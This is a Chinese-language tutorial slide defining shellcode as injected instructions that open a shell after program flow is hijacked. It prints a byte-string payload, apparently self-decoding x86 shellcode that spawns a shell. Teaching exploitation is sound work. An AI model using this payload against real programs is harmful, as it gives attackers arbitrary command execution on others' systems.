

# 什么是Shellcode
通常将注入的这段指令称为shellcode。这段指令通常是打开一个shell(bash)，然后攻击者可以在shell执行任意命令，所以称为shellcode。
也就是我们劫持掉程序流后想执行的代码。

payload+="\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload+="\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload+="\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload+="\x32\xc1\x51\x69\x30\x30\x74\x69"
payload+="\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload+="\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"